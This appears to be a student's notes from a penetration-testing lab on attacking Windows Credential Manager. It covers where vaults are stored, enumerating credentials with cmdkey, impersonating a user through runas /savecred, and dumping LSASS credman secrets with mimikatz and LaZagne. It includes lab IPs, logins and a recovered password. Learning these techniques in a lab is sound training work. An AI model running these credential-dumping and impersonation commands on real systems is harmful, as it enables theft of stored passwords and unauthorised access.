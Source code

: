 >[! Hint ] 
> Credentials are stored in special encrypted folders on the computer under the user and system profiles:
> - `%UserProfile%\AppData\Local\Microsoft\Vault\`
> - `%UserProfile%\AppData\Local\Microsoft\Credentials\`
> - `%UserProfile%\AppData\Roaming\Microsoft\Vault\`
> - `%ProgramData%\Microsoft\Vault\`
> - `%SystemRoot%\System32\config\systemprofile\AppData\Roaming\Microsoft\Vault\`

>[! Hint ]
> Each vault folder contains a `Policy.vpol` file with AES keys (AES-128 or AES-256) that is protected by DPAPI.
> 
> The following table lists the two types of credentials Windows stores:

| Name                | Description                                                                                                                                                           |
| ------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Web Credentials     | Credentials associated with websites and online accounts. This locker is used by Internet Explorer and legacy versions of Microsoft Edge.                             |
| Windows Credentials | Used to store login tokens for various services such as OneDrive, and credentials related to domain users, local network resources, services, and shared directories. |
#### Export Windows Vaults to .crd
> [! Note] 
> Export windows vaults to .crd either via Control Panel or with the following command. Backups created this way are encrypted with a password supplied by the user, and can be imported on other Windows systems.

```go
rundll32 keymgr.dll,KRShowKeyMgr
```

### Enumerating credentials with cmdkey

>[! Note]
> Use [cmdkey](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/cmdkey) to enumerate the credentials stored in the current user's profile:
> >	cmdkey /list

  Attacking Windows Credential Manager

```go
C:\Users\sadams>whoami
srv01\sadams

C:\Users\sadams>cmdkey /list

Currently stored credentials:

    Target: WindowsLive:target=virtualapp/didlogical
    Type: Generic
    User: 02hejubrtyqjrkfi
    Local machine persistence

    Target: Domain:interactive=SRV01\mcharles
    Type: Domain Password
    User: SRV01\mcharles
```

Stored credentials are listed with the following format:

|Key|Value|
|---|---|
|Target|The resource or account name the credential is for. This could be a computer, domain name, or a special identifier.|
|Type|The kind of credential. Common types are `Generic` for general credentials, and `Domain Password` for domain user logons.|
|User|The user account associated with the credential.|
|Persistence|Some credentials indicate whether a credential is saved persistently on the computer; credentials marked with `Local machine persistence` survive reboots.|
The first credential in the command output above, `virtualapp/didlogical`, is a generic credential used by Microsoft account/Windows Live services. The random looking username is an internal account ID. This entry may be ignored for our purposes.

The second credential, `Domain:interactive=SRV01\mcharles`, is a domain credential associated with the user SRV01\mcharles. `Interactive` means that the credential is used for interactive logon sessions. Whenever we come across this type of credential, we can use `runas` to impersonate the stored user like so:

```go
C:\Users\sadams>runas /savecred /user:SRV01\mcharles cmd
Attempting to start cmd as user "SRV01\mcharles" ...
```

![[Pasted image 20250609143807.png]]

### Extracting credentials with Mimikatz

>[! Example ]
> With `mimikatz`, there are multiple ways to attack these credentials - we can either dump credentials from memory using the `sekurlsa` module, or we can manually decrypt credentials using the `dpapi` module. For this example, we will target the LSASS process with `sekurlsa`:

```go
C:\Users\Administrator\Desktop> mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::credman

...SNIP...

Authentication Id : 0 ; 630472 (00000000:00099ec8)
Session           : RemoteInteractive from 3
User Name         : mcharles
Domain            : SRV01
Logon Server      : SRV01
Logon Time        : 4/27/2025 2:40:32 AM
SID               : S-1-5-21-1340203682-1669575078-4153855890-1002
        credman :
         [00000000]
         * Username : mcharles@inlanefreight.local
         * Domain   : onedrive.live.com
         * Password : ...SNIP...

...SNIP...
```

## Questions

Username
```go
sadams
```

Password
```go
totally2brow2harmon@
```

IP
```go
10.129.234.171
```

RDP
```go
xfreerdp /v:10.129.234.171 /u:sadams /p:totally2brow2harmon@ /cert:ignore
```

1) What is the password mcharles uses for OneDrive?

![[Pasted image 20250804220128.png]]

Interactive logon is available, so use `runas` to impersonate the user `mcharles`
```go
runas /savecred /user:SRV01\mcharles cmd
```

I can use `mimikatz` to get the password. First I must transfer the binary over to the Windows target, `mcharles`

#### Transfer mimikatz to target

```go
scp /usr/bin/mimikatz sadams@10.129.234.171:/C:/Users/sadams/Desktop
```

>[!error] SCP not transfering
> For some reason SCP is hanging so I used python http server instead
>>	python3 -m http.server 9000

>[!error] Mimikatz error
> When executing `privilege::debug` mimikatz gives the following error message:
>>	ERROR kuhl_m_privilege_simple ; RtlAdjustPrivilege (20) c0000061
>
> I transfered `Lazagne.exe` over to the host to exploit the target system


![[Pasted image 20250806081246.png]]

![[Pasted image 20250806081059.png]]

#### Credentials

Username
```
mcharles@inlanefreight.local
```

Password
```
Inlanefreight#2025
```
